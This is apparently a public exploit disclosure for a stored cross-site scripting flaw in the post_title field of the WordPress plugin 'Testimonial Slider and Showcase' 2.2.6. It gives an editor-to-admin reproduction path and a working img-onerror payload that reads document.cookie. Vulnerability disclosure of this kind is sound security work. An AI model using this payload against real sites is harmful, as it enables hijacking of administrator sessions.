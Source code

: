 # Exploit Title: Stored XSS in post_title parameter in WordPress Plugin "Testimonial Slider and Showcase" 2.2.6
# Date: 05/08/2022
# Exploit Author: saitamang , yunaranyancat , amd_syad
# Vendor Homepage: wordpress
# Software Link: https://wordpress.org/plugins/testimonial-slider-and-showcase/
# Version: 2.2.6
# Tested on: Centos 7 apache2 + MySQL

WordPress Plugin "Testimonial Slider and Showcase" is prone to a cross-site scripting (XSS) vulnerability because it fails to properly sanitize user-supplied input. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks. WordPress Plugin "Testimonial Slider and Showcase" version 2.2.6 is vulnerable; prior versions may also be affected.

Login as Editor > Add testimonial > Under Title inject payload below ; parameter (post_title parameter) > Save Draft > Preview the post

payload --> test"/><img/src=""/onerror=alert(document.cookie)>

The draft post can be viewed using Admin account and XSS will be triggered.
